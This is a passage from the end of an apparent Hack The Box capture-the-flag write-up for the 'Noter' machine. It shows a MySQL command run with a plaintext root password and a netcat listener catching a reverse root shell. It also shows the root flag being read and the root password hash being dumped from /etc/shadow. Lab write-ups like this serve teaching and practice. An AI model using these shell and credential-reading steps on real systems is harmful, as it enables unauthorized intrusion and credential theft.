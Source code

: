 ```text
svc@noter:/dev/shm$ mysql -u root -pNildogg36 -e 'source /dev/shm/sql_script.txt;'
```

## Root Flag

Now switch to Kali where I have another netcat listening on port 4445:

```sh
┌──(root㉿kali)-[~/htb/noter]
└─# nc -nlvp 4445           
listening on [any] 4445 ...
connect to [10.10.14.73] from (UNKNOWN) [10.10.11.160] 58210

root@noter:/var/lib/mysql# id
id
uid=0(root) gid=0(root) groups=0(root)
```

We have our root shell so let's grab the flag:

```sh
root@noter:/var/lib/mysql# cat /root/root.txt
cat /root/root.txt
9f6d96f860c0adc3a1dcc7e3a29402b9

root@noter:/var/lib/mysql# cat /etc/shadow | grep root
root:$6$09RSjU3jIh/2JW1u$8jlcYzW5Oyzgh/TrlTPX5Wq2HMTA6zUooij/9j0.NIttTYp4x0h6wmq8chrcdtvNpZzHlHzwsI8GesOKI3NYn.:18991:0:99999:7:::
```

That was an interesting box. I hope you enjoyed working through it with me. See you next time.
